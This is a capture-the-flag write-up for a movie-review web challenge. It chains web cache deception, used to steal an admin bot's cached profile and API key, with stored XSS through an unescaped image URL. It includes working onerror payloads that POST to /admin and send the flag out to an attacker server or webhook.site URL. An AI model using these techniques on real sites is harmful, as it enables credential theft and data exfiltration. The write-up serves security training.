 # Popcorn and payloads

## Solution

### Recon

- Notice that all responses contain the `X-Cache-Status` HTTP header, which indicates that a **cache server** is probably in place.

- Only static file requests seem to be cached. Requests ending in `.css` or `.jpg` return responses with `HIT` or `MISS` in the `X-Cache-Status`, while any other requests return `BYPASS`.

- We should check for any [web cache deception vulnerabilitites](https://portswigger.net/web-security/web-cache-deception)

### Identify the vulnerability

- Identify a target endpoint that returns a dynamic response containing **sensitive information**. You should use the `/profile` endpoint.

- Identify a discrepancy in how the cache and backend server **parse** the URL path. There is a discrepancy in **how** they map URLs to resources.

- It seems that the backend server uses REST-style URL mapping and ignores any extra parameters. For example, `/profile/test` still returns the same response as `/profile`. 

-  Now, test if the cache server will cache the response if we add a static extension like `.css`. The cache server indeed caches the response for the request `/profile/test.css`.

- Since the response is cached, we can get the **exact same response** even if we remove the session cookie and make the same request.

### Exploit

- Craft a malicious URL like `/profile/a.css` and include it to a movie review. 

- An admin bot will visit any URLs contained in reviews.

- Wait a few seconds and then visit your own malicious URL. If you get `X-Cache-Status: MISS`, you didn't wait long enough. Try again with an other URL.

- You will be able to see the admin's cached profile page and steal their API key. Also, notice that there is API documentation available at `/api` and a functionality that returns the flag via an empty POST request to `/admin`.

- POST `/admin` with a regular user returns forbidden, so we probably need XSS on the page in order to get the flag.

- Study the API docs in `/api` and note that you can add a new movie with a POST request to `/api/movies`. Example request body:
```javascript
{
  "title": "New Movie",
  "image": "https://example.com/image.jpg",
  "trailer": "https://youtube.com/embed/xyz",
  "description": "A brand new movie."
}
```

- The image URL is inserted into the `src` attribute of the movie's `<img>` and it is not properly escaped. Therefore you can trigger XXS by adding a new movie with the following image URL:
```javascript
"image": "x\" onerror=\"alert(0)"
```

- Don't forget to use the stolen API key as an `x-api-key` HTTP header.

- Finally, add a movie with the following payload to force admin to send the flag to your exploit server:
```javascript
{
  "title": "New Movie",
  "image": "x\" onerror=\"fetch('http://CHALLENGE_ADDR/admin',{method:'POST'}).then(r=>r.json()).then(r=>fetch('http://YOUR-EXPLOIT-SERVER/?flag='+r.flag))",
  "trailer": "https://youtube.com/embed/xyz",
  "description": "A brand new movie."
}
```

Example: (change `http://127.0.0.1/` depending on the platform, the key based on instance, the webhook with yours)
```javascript
fetch("/api/movies", {
  "headers": {
    "content-type": "application/json",
    "x-api-key": '9ac17031fe76d57c0877824c9a453d52'
  },
  "body": JSON.stringify({
  "title": "New Movie",
  "image": "x\" onerror=\"fetch('http://127.0.0.1/admin',{method:'POST'}).then(r=>r.json()).then(r=>fetch('https://webhook.site/2847a8ad-9c63-4e29-b943-dd5fbb6df0f1/?flag='+r.flag))",
  "trailer": "https://youtube.com/embed/xyz",
  "description": "A brand new movie."
}),
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```
